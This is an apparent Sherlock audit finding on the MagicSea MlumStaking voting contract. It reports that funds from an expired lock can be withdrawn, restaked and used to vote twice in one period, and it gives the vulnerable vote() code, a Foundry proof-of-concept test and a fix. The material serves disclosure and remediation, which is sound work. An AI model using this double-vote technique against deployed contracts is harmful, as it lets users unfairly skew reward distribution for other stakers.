 Future Mandarin Unicorn

Medium

# Funds in MlumStaking may be used to vote twice

## Summary
In one vote period, if one NFT position reach lock time, the related MLUM tokens can be used to vote for twice.

## Vulnerability Detail
In MlumStaking, stakers will stake MLUM tokens to mint one NFT position. Stakers can make use of the position NFT to vote for their pool.
In vote(), we add some check to check whether this NFT has the right to vote for one pool. 
The vulnerability is that the input check is not enough. Considering that one NFT token's timelock reaches, we use this NFT to vote for one pool. And then we can withdraw from MlumStaking and recreate one position into MlumStaking to generate another NFT position. We can use this position to vote again.
We can use the same funds to vote twice.

```javascript
    function vote(uint256 tokenId, address[] calldata pools, uint256[] calldata deltaAmounts) external {
        if (pools.length != deltaAmounts.length) revert IVoter__InvalidLength();

        // check voting started
        if (!_votingStarted()) revert IVoter_VotingPeriodNotStarted();
        if (_votingEnded()) revert IVoter_VotingPeriodEnded();

        // check ownership of tokenId
        if (_mlumStaking.ownerOf(tokenId) != msg.sender) {
            revert IVoter__NotOwner();
        }

        uint256 currentPeriodId = _currentVotingPeriodId;
        // check if alreay voted
        if (_hasVotedInPeriod[currentPeriodId][tokenId]) {
            revert IVoter__AlreadyVoted();
        }

        // check if _minimumLockTime >= initialLockDuration and it is locked
        // @audit possible to vote twice with the same amount to mlumstaking
        if (_mlumStaking.getStakingPosition(tokenId).initialLockDuration < _minimumLockTime) {
            revert IVoter__InsufficientLockTime();
        }
        if (_mlumStaking.getStakingPosition(tokenId).lockDuration < _periodDuration) {
            revert IVoter__InsufficientLockTime();
        }
......
}
```

### Poc
```javascript
    function testPocVoted() public {
        // Create position at first
        vm.startPrank(ALICE);
        _createPosition(ALICE);
        vm.warp(3 weeks);

        vm.prank(DEV);
        _voter.startNewVotingPeriod();
        vm.startPrank(ALICE);
        _voter.vote(1, _getDummyPools(), _getDeltaAmounts());
        // withdraw this NFT
        _pool.withdrawFromPosition(1, 1 ether);
        _stakingToken.approve(address(_pool), 1 ether);
        _pool.createPosition(1 ether, 2 weeks);
        _voter.vote(2, _getDummyPools(), _getDeltaAmounts());
        vm.stopPrank();
    }
```
## Impact
Stakers' voting power should be determined by staking behavior. Now malicious users can increase their voting power to get more pool rewards for their pool. This is unfair.

## Code Snippet
https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/Voter.sol#L153-L219

## Tool used

Manual Review

## Recommendation
If one NFT position wants to vote, we should make sure this NFT position is locked and cannot be unlocked before the vote period ends.